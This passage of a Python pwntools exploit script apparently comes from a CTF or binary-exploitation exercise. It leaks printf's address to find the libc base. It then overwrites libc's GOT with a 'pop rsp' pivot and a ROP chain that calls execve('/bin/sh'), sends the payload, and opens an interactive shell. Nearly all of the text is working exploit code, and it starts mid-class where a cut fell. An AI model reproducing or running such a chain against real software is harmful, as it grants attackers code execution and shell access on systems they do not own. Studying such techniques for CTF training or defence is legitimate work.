 ```python
                "[!] Using gadgets, make sure that's corresponding to the libc!")
        else:
            fp = open("./gadgets", 'wb')
            subprocess.run(f"ROPgadget --binary {libc.path}".split(" "),
                           stdout=fp)
            fp.close()
        fp = open("./gadgets", 'rb')
        data = fp.readlines()[2:-2]
        data = [x.strip().split(b" : ") for x in data]
        data = [[int(x[0], 16), x[1].decode()] for x in data]
        fp.close()
        self.gadgets = data
        self.base = base

    def search(self, s):
        for addr, ctx in self.gadgets:
            if ctx == s:
                return addr + self.base
        return None


def fx1(libc: ELF, rop_chain):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    pivot = rop.find_gadget(["pop rsp", 'ret'])[0]
    write_dest = got + 8
    got_count = 0x36  # hardcoded
    rop_dest = write_dest + 0x10 + got_count * 8
    write_data = flat(
        rop_dest,
        pivot,
        [plt0] * got_count,
        rop_chain
    )
    return write_dest, write_data


leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

rop = ROP(libc)
rdi = rop.find_gadget(["pop rdi", 'ret'])[0]
rsi = rop.find_gadget(["pop rsi", 'ret'])[0]
rdx = rop.find_gadget(["pop rdx", "pop r12", 'ret'])[0]
rop_chain = flat(
    rdi, libc.search(b"/bin/sh").__next__(),
    rsi, 0,
    rdx, 0, 0,
    libc.sym['execve']
)
dest, payload = fx1(libc, rop_chain=rop_chain)

ss("write payload to {}, length {}".format(hex(dest), hex(len(payload))))
sd(p64(dest))
sd(p64(len(payload)))
sd(payload)

interact()
```
